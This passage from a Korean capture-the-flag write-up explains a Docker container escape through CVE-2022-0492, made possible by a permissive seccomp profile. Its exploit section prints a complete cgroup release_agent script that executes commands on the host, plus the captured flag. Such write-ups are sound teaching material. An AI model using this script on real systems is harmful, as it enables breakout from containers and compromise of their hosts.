 여기서 문제는 `/etc/mtab`을 검색했을 때, 호스트 기준으로 도커 컨테이너의 루트 디렉토리 경로를 알 수 없다. 다시 말해, `mount` 명령어를 쳤을 때 맨 위에 나오는 값이 overlayfs가 아니라, rootfs이기 때문에 알 수 없는 것이다.

![10](10.png)

이는 Docker 컨테이너의 Storage Driver 설정이 `vfs`이기 때문에 발생하는 것으로, `/etc/docker/daemon.json`을 확인하거나, `docker info` 명령어로 현재 등록된 Storage Driver를 알 수 있다.

![11](11.png)

만약 이를 `overlay2`로 바꿔주고 다시 파일 시스템을 압축하면, 경로를 잘 구할 수 있음을 알 수 있다. 그렇다면, 위의 PoC 코드에서 읽는 파일만 수정해서 그대로 입력할 경우, 성공적으로 플래그를 읽어냄을 알 수 있다.

또한, 원래 `mount`와 `unshare` syscall은 `CAP_SYS_ADMIN`이 있어야만 사용 가능한 syscall이다. Default Seccomp Profile 설정이 그렇다.

그러나, `/etc/seccomp-profile.json`를 Seccomp Profile로 지정함으로써, `CAP_SYS_ADMIN`이 없어도 가능해졌다. 이로 인해, 실제로는 privileged 권한이 없어도, 임의로 `unshare` syscall을 통해 새로운 capability를 만들어 사용할 수 있고, 결과적으로 `cgroup` 파일 시스템을 새롭게 할당하여 CVE-2022-0492를 트리거할 수 있게 되는 것이다.

![13](13.png)

이에 대한 힌트는 `/etc/seccomp-profile.json`를 확인했을 때, 이 두 개의 syscall만 새롭게 추가된 것으로 확인할 수 있다.

### [0x03] 익스플로잇

---

```bash
unshare -UrmC bash
mkdir /tmp/mountest && mount -t cgroup -o rdma cgroup /tmp/mountest && mkdir /tmp/mountest/x
echo 1 > /tmp/mountest/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/mountest/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /flag.txt > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/mountest/x/cgroup.procs"
cat /output
```

또한, `vfs`를 Storage Driver로 지정하여 컨테이너의 주소를 구하려면, 컨테이너 주소 구하는 부분만 아래와 같이 수정하면 된다.

```bash
host_path=`cat /proc/self/mountinfo | head -n 1 | awk '{print $4}'`
```

![12](12.png)

`DANTE{Esc4P3_Fr0M_C0nT41n3R_thp4EDdgtf4}`

### [0x04] 참고 자료

---
- cgroup: [https://man7.org/linux/man-pages/man7/cgroups.7.html](https://man7.org/linux/man-pages/man7/cgroups.7.html)
- CVE-2022-0492
  - HackTricks: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape)
  - Unit42: [https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)
  - sysdig: [https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)
